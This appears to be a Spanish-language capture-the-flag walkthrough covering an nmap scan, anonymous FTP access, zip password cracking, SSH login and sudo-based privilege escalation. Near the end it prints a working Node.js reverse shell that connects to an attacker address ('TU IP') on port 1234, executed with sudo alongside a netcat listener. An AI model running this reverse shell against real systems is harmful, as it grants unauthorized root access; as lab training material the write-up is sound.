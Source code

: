 1-Ping y NMAP

<img width="771" height="685" alt="image" src="https://github.com/user-attachments/assets/271b59dd-1e13-455f-90fa-21dddd235eab" />

2- Vemos que el ftp en anonymous esta on, vamos a mirar que hay.

<img width="672" height="514" alt="image" src="https://github.com/user-attachments/assets/362391df-dde8-402c-ba43-0edc552337a1" />

Vemos que hay un fichero, lo cojemos y vamos a intentar abrirlo.

3- Romper contraseña zip.

<img width="830" height="497" alt="image" src="https://github.com/user-attachments/assets/9f7ac458-28de-4498-a527-5849534e658d" />

Vale, ya tenemos la contraseña, vamos a descomprimir ahora.

<img width="432" height="219" alt="image" src="https://github.com/user-attachments/assets/8bdfbdfc-51ca-451f-89c5-aeba69ffdc86" />

4- Entramos via ssh

<img width="928" height="402" alt="image" src="https://github.com/user-attachments/assets/1d252d9d-d4ba-48ec-8bb6-1e9a76895f0f" />
Haciendo sudo -l, vemos que hay un script, que lo podemos usar como via de escalada.

<img width="519" height="104" alt="image" src="https://github.com/user-attachments/assets/8cd4f9df-28be-42cd-9325-831cea4cdd32" />
 Le pasaremos una reverse shell dentro del script:

 (function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("bash", []);
    var client = new net.Socket();
    client.connect(1234, "TU IP", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();

<img width="507" height="119" alt="image" src="https://github.com/user-attachments/assets/6647d8ac-8e8e-4ae5-9c08-50dce0a1ac8c" />

Nos ponemos a la escucha con netcat y luego ejecutamos el script::sudo /usr/bin/node /home/mario/script.js

